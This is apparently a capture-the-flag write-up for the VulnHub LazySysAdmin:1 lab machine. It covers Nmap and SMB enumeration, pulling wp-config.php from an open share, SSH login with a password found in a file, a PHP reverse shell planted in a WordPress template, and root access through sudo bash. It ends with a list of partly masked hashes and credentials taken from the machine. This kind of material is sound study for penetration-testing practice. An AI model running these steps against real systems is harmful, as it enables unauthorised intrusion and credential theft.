


# [[VulnHub] LazySysAdmin: 1](https://www.vulnhub.com/entry/lazysysadmin-1,205/)

**Date**: 29/Oct/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_smb_nullsession`](https://github.com/7h3rAm/writeups#exploit_smb_nullsession), [`exploit_smb_web_root`](https://github.com/7h3rAm/writeups#exploit_smb_web_root), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_wordpress_template`](https://github.com/7h3rAm/writeups#exploit_wordpress_template), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo)  

## Overview
This is a writeup for VulnHub VM [LazySysAdmin: 1](https://www.vulnhub.com/entry/lazysysadmin-1,205/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Tue Oct 29 11:18:00 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.lazysysadmin1/results/192.168.92.191/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.lazysysadmin1/results/192.168.92.191/scans/xml/_quick_tcp_nmap.xml 192.168.92.191
Nmap scan report for 192.168.92.191
Host is up, received arp-response (0.019s latency).
Scanned at 2019-10-29 11:18:03 PDT for 27s
Not shown: 994 closed ports
Reason: 994 resets
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAKXQVTTRKsDhYwPWdmZ2BDTjKcCtJ7SnW0BHwbBvIdUVOh7zjZ6xjkEJ4TkT/Y+lJUolKMMNDu+CNPrRNKyBfjQ5w13mO7/3mKh9p52bzHG6XFS2m7GI4cLiDbmjO9L/YhU5deFP1Bo02KxzREp/ipz/CVlRr8IZm/x7SbPXtzv1AAAAFQDorLYH3AOwt18+kzAxGO0f2SarWQAAAIEAmOm6aWDLi+a85rfIm2Llb24aPZN3OsntJKVk4iCDbKxXi7xd6K9h1t+Utrg7dn4oO/QrVv8RRYBSiuJ8sy7B2+YDM0X7v+yqIG8FdA66tFpnMiMvdhYXoLyiod71vTqmGuAVKyHc56fUtdb3gCMjO0CHhPTKg2S0gPfFOqiyGVUAAACACvwr3X/J810mevpUQokt4xBBPNiIGkbK9KbZG63vi1NvGmaOkzbo3Cf8gZ0ILFd3YlryhP6c8PHaQMWcvzMT9oTyJ4FOokv1D3Mh4APPZ1SDqCmryHmRazggnbYlbGkYiqmZHUvS1zNalJHfC/QIHQZAjeUrHl8ZVHKk5ZYktAE=
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL4kUdp6Gej0kmVuGrpPSUUIqYmMsiqjbZ4PFCmji+ozLhgBlWE4+XcghV9PWTUmBdU6yZsylputJMi87GBW8s66tCnZU2lm+APerAT+euYlUgi+xoigD+g2VWthVNwvj2mg8updYtcZ3Jv2besdsohtadike0fwJAPfvl/ss9jE9AFv73DHu2EuwrP/3tM0WG7GgQQj01TFmrLYnDX9unvKcOi3kLgQ9I6JfdSC1oc+lBtkOp12hr5gIlYIlAgI+E2yl79cdk6PTQ4mgRmIEJguLbWo8mnaEI77y1Lz7xpxi89/gWjQuS+DMPbbpoJZdRkTldTr0QaJuP2i0ys8Dh
|   256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBcmYC//tB7vdI00Q3Czjvzi7cao1q+PtbUHYxSk7ay3rM1LStjxRkpUZPQWpVRdU9kWJhIiYZDMPf8gOSgC2eY=
|   256 1f:65:c0:dd:15:e6:e4:21:f2:c1:9b:a3:b6:55:a0:45 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKQXcDdFdhnLjXj6zgOcox1r7UBkTYpaOYdioJt97xdA
80/tcp   open  http        syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Silex v2.2.7
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
| http-robots.txt: 4 disallowed entries
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       syn-ack ttl 64 MySQL (unauthorized)
6667/tcp open  irc         syn-ack ttl 64 InspIRCd
| irc-info:
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.92.190
|_  error: Closing link: (nmap@192.168.92.190) [Client exited]
MAC Address: 00:0C:29:C2:70:16 (VMware)
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h19m58s, deviation: 5h46m22s, median: 0s
| nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   LAZYSYSADMIN<00>     Flags: <unique><active>
|   LAZYSYSADMIN<03>     Flags: <unique><active>
|   LAZYSYSADMIN<20>     Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 59130/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 20872/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 25346/udp): CLEAN (Failed to receive data)
|   Check 4 (port 16469/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN\x00
|   Domain name: \x00
|   FQDN: lazysysadmin
|_  System time: 2019-10-30T04:18:22+10:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-10-29 11:18:22
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 29 11:18:30 2019 -- 1 IP address (1 host up) scanned in 30.69 seconds

```

2\. Upon visiting the `80/tcp`, we find an unknown web application. Inspecting further, we find a few links via `robots.txt` file but none of those seem useful.  

  

  

3\. We also find a `wordpress` directory from the `gobuster` scan report. Initial attempts to login via common default credentials didn't succeed. Since we already have read access to Wordpress installation via the open SMB share, we download the `wp-config.php` file and obtain the hardcoded MySQL credentials within it:  
``` {.python .numberLines}
gobuster -u http://192.168.92.191:80/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e -k -l -s "200,204,301,302,307,401,403" -x "txt,html,php,asp,aspx,jsp"
smbclient //192.168.92.191/share$
  cd wordpress
  get wp-config.php

```

  

  

4\. We explore the SMB service and find that there is a user named `togie` on this system. Other than that, there is an open (readonly) SMB share and it is also the web root. We find a lot of interesting files within this directory, particularly the `deets.txt` file that has a password `12345`, possibly for user `togie`:  
``` {.python .numberLines}
enum4linux -a -M -l -d 192.168.92.191
smbclient //192.168.92.191/share$
http://192.168.92.191/deets.txt

```

  

  

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp    |  ssh          |  OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp    |  http         |  Apache httpd 2.4.7 ((Ubuntu))
137/udp   |  netbios-ns   |  Samba nmbd netbios-ns (workgroup: WORKGROUP)
139/tcp   |  netbios-ssn  |  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   |  netbios-ssn  |  Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp  |  mysql        |  MySQL (unauthorized)
6667/tcp  |  irc          |  InspIRCd
```
#### Files
``` {.python .numberLines}
http://192.168.92.191/robots.txt
http://192.168.92.191/deets.txt
http://192.168.92.191/wordpress
```
#### Users
``` {.python .numberLines}
ssh: togie
wordpress: admin, togie
```

\newpage
## Phase #2: Exploitation
1\. We now ssh as user `togie` with the password `12345` obtained from `deets.txt` file and it works:  
``` {.python .numberLines}
ssh togie@192.168.92.191

```

  

2\. On the other hand, we successfully used credentials obtained from `wp-config.php` file to login to Wordpress since the administrator has reused those credentials:  

  

3\. To get interactive access, we edit the `404.php` template page and add a PHP reverse shell to it. We then start a local `netcat` listener and visit a non-existing page to trigger the webshell:  

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@LazySysAdmin> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@LazySysAdmin>  
www-data@LazySysAdmin> uname
Linux LazySysAdmin 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
www-data@LazySysAdmin>  
www-data@LazySysAdmin> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:0c:29:c2:70:16
      inet addr:192.168.92.191  Bcast:192.168.92.255  Mask:255.255.255.0
      inet6 addr: fe80::20c:29ff:fec2:7016/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:445407 errors:58 dropped:159 overruns:0 frame:0
      TX packets:368829 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:52069828 (52.0 MB)  TX bytes:80329306 (80.3 MB)
      Interrupt:19 Base address:0x2000
www-data@LazySysAdmin>  
www-data@LazySysAdmin> users
root
togie
```

\newpage
## Phase #3: Privilege Escalation
1\. We find that the user `togie` can execute any commands as user `root`. We use this misconfiguration to elevate privileges:  
``` {.python .numberLines}
sudo -l
sudo bash

```

  

  

2\. We then view the contents of the `/root/proof.txt` file to complete the challenge:  
``` {.python .numberLines}
cat /root/proof.txt

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$O4bZf1Ju$0xcLPNyQkVcKT0CajZYBOTz4thlujMRjQ7XuFstUDWwYHKmVmJsDmzGXUwYbU1uqr6jxEvX4XJjSUgiwj........................
togie:$6$dvOTOc6x$jpt1MVPeBsVlfkhVXl3sv21x2Ls2qle8ouv/JMdR6yNpt2nHHahrh0cyT.8PfVcNqlrAHYFkK2WYdSbxQ........................
```
### Credentials
``` {.python .numberLines}
ssh: togie/12...
mysql: Admin/TogieMYSQL12.....
wordpress: admin/TogieMYSQL12.....
```

## References
[+] <https://www.vulnhub.com/entry/lazysysadmin-1,205/>  
[+] <https://www.gerrenmurphy.com/vulnhub-lazysysadmin-walkthrough/>  
[+] <https://neilsec.com/ctf/vulnhub-lazysysadmin-1-ctf-attempt/>  
